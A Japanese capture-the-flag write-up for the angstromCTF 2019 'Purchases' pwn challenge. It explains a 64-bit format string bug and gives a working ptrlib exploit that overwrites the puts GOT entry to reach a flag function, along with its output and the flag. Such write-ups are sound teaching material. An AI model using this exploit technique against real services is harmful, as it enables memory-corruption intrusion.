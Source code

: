 # [pwn 120pts] Purchases - angstromCTF 2019
64bitでSSPは有効です。
```
$ checksec purchases
[*] 'purchases'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```

FSBがあります。
printfの後にはputsがあるので、このGOTを書き換えましょう。
他の問題同様にflag関数があるのでそこへジャンプすればOKです。

```python
from ptrlib import *

elf = ELF("./purchases")
#sock = Process("./purchases")
sock = Socket("shell.actf.co", 19011)

_ = input()
sock.recvuntil("What item would you like to purchase? ")

payload = str2bytes("%{}c%{}$hn".format(0x11b6, 8 + 2))
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(elf.got("puts"))[:3]
sock.sendline(payload)

sock.interactive()
```

`%hn`なので結構出力されます。
```
s$ python solve.py 
[+] Socket: Successfully connected to shell.actf.co:19011
...
...
...
 pAAAA@@ somewhere else. actf{limited_edition_flag}
```

# 感想
64bitのFSBって以外と文献が少ない気がする。
昔初めて見たときは「null入っててできないじゃん！」ってなりました。